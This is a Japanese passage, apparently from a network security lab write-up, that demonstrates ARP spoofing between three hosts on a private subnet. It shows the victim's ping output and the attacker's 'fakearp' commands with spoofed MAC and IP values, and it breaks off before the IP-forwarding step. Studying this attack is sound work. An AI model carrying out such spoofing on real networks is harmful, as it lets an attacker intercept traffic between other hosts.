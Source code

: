 　以下は、ARPスプーフィングをおこなった際のHOST-AでのPING結果です。
　PINGの結果ではHOST-Cを経由しているのかどうかは分かりません。

-----[HOST-AからHOST-Bへの連続PING]
C:\Users\unya>ping -t 192.168.2.7

192.168.2.7 に ping を送信しています 32 バイトのデータ:
192.168.2.7 からの応答: バイト数 =32 時間 <1ms TTL=255 -
192.168.2.7 からの応答: バイト数 =32 時間 <1ms TTL=255  |
192.168.2.7 からの応答: バイト数 =32 時間 <1ms TTL=255  |---手順 1 疎通確認
192.168.2.7 からの応答: バイト数 =32 時間 <1ms TTL=255  |
192.168.2.7 からの応答: バイト数 =32 時間 <1ms TTL=255 -
要求がタイムアウトしました。                           - <--手順 2 ARPスプーフィング実行
要求がタイムアウトしました。                            |
要求がタイムアウトしました。                            |---手順 3 疎通が途絶えることを確認
要求がタイムアウトしました。                            |
要求がタイムアウトしました。                           -
192.168.2.7 からの応答: バイト数 =32 時間 =1ms TTL=255 - <--手順 4 IPパケット転送開始
192.168.2.7 からの応答: バイト数 =32 時間 =1ms TTL=255  |
192.168.2.7 からの応答: バイト数 =32 時間 =1ms TTL=255  |---手順 5 疎通が復旧することを確認
192.168.2.7 からの応答: バイト数 =32 時間 =1ms TTL=255  |
192.168.2.7 からの応答: バイト数 =32 時間 <1ms TTL=255 -
-----


○3.3.3 HOST-C（攻撃者）の実行結果

　HOST-Cは攻撃者です。HOST-Cでは、HOST-AおよびHOST-Bに対してARPスプーフィ
ングを実行します[手順 2]。
　HOST-AとHOST-B間の通信がすべてHOST-Cへ向かうように、送信元MACアドレスを
HOST-Cのアドレスに設定します。

　以下は、HOST-CでARPスプーフィングを実行しているところです。

-----[HOST-CでのARPスプーフィング実行]
HOST-C# ./fakearp -i em0 -sh 00:1f:d0:c0:24:da -sp 192.168.2.7 -dh 00:1b:d3:87:2a:59 192.168.2.5
Using interface em0
ARP request 192.168.2.7 00:1f:d0:c0:24:da > 192.168.2.5 00:1b:d3:87:2a:59
ARP request 192.168.2.7 00:1f:d0:c0:24:da > 192.168.2.5 00:1b:d3:87:2a:59
ARP request 192.168.2.7 00:1f:d0:c0:24:da > 192.168.2.5 00:1b:d3:87:2a:59
＜省略＞

HOST-C# ./fakearp -i em0 -sh 00:1f:d0:c0:24:da -sp 192.168.2.5 -dh 4c:e6:76:08:96:86  192.168.2.7
Using interface em0
ARP request 192.168.2.5 00:1f:d0:c0:24:da > 192.168.2.7 4c:e6:76:08:96:86
ARP request 192.168.2.5 00:1f:d0:c0:24:da > 192.168.2.7 4c:e6:76:08:96:86
ARP request 192.168.2.5 00:1f:d0:c0:24:da > 192.168.2.7 4c:e6:76:08:96:86
＜省略＞
-----

　この時点でHOST-AとHOST-B間の通信は途絶しています[手順 3]。
　途絶が確認できたところで、HOST-CでIPパケットの転送機能を有効にします[手順 4]。
　パケット転送機能を有効にするまで、HOST-AとHOST-B間の通信は復旧しません。

　以下は、FreeBSDでIPパケットの転送を有効にしているところです。
